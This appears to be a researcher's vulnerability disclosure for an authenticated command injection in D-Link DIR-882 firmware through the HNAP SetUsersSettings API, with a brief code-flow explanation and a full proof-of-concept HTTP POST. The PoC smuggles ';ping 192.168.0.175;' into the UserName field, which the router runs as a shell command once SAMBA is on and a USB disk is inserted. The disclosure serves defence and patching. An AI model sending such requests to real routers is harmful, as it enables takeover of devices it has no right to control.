







# D-Link Vulnerability

Vendor:D-Link

Product:DIR_882

Version:DIR_882_FW1.30B06_Hotfix_02(Download Link:https://support.dlink.com/productinfo.aspx?m=DIR-882-US)

Type:Command Execution

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in D-link Technology router with firmware which was released recently.A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request. This occurs when any HNAP API function triggers a call to the `twsystem` function with untrusted input from the request body for the `SetUsersSettings` API function (ModuleInitUSB,need authentication).

**Command Execution**

In `prog.cgi` binary:

In `SetUsersSettings` function,`Username`、`Password` is directly passed by the attacker.After that, call the function sub_4966B0.

<div  align="center"></div>

As you can see here, the input has not been checked.And then,call the function nvram_safe_set to store this input.

<div  align="center"></div>

In `rc` binary:

<div  align="center"></div>

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.**The key to triggering this vulnerability is to set up samba and ftp services, and be able to insert usb devices**.**(HID attack)**

Why open the samba service and insert the usbdisk?

Because there is a judgment in the program here, only after the usbdisk is inserted and SAMBA is turned on can it enter the vulnerability trigger function.

Similiarly, you can use the method of sending data packets to enable the router to enable the SAMBA service.

<div  align="center"></div>


## PoC

We set `Username` as **;ping 192.168.0.175;**（my ip address）, and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://purenetworks.com/HNAP1/SetUsersSettings"
HNAP_AUTH: C6521D123CA401E72128EAB399059BC8 1640011263203
X-Requested-With: XMLHttpRequest
Content-Length: 1716
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/UserAndDevice.html
Cookie: uid=gsTMZTiu

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetUsersSettings xmlns="http://purenetworks.com/HNAP1/"><StorageUsersLists><StorageUser><Enabled>true</Enabled><UserName>Admin</UserName><Password>b3faad17c9311b62f391829b68a11c1ce5ccad17b7311bb8f391409b68dc1c1ce5ccad17b7311bb8f391409b68dc1c1ce5ccad17b7311bb8f391409b68dc1c1c</Password><ServiceInfoLists><ServiceInfo><Enabled>true</Enabled><ServiceName>SAMBA</ServiceName><AccessPath>/</AccessPath><Permission>true</Permission></ServiceInfo><ServiceInfo><Enabled>true</Enabled><ServiceName>FTP</ServiceName><AccessPath>/</AccessPath><Permission>true</Permission></ServiceInfo><ServiceInfo><Enabled>false</Enabled><ServiceName>VPN</ServiceName><AccessPath></AccessPath><Permission>true</Permission></ServiceInfo></ServiceInfoLists></StorageUser><StorageUser><Enabled>true</Enabled><UserName>;ping 192.168.0.175;</UserName><Password>b3ccad17b7311bb8f3917d9b68891c1ce5ccad17b7311bb8f391409b68dc1c1ce5ccad17b7311bb8f391409b68dc1c1ce5ccad17b7311bb8f391409b68dc1c1c</Password><ServiceInfoLists><ServiceInfo><Enabled>true</Enabled><ServiceName>SAMBA</ServiceName><AccessPath>root</AccessPath><Permission>true</Permission></ServiceInfo><ServiceInfo><Enabled>true</Enabled><ServiceName>FTP</ServiceName><AccessPath>/</AccessPath><Permission>true</Permission></ServiceInfo><ServiceInfo><Enabled>true</Enabled><ServiceName>VPN</ServiceName><AccessPath></AccessPath><Permission>true</Permission></ServiceInfo></ServiceInfoLists></StorageUser></StorageUsersLists></SetUsersSettings></soap:Body></soap:Envelope>
```

<div  align="center"></div>


## Result

This will triger the `start_samba` method, and then execute ping command!

<div  align="center"></div>
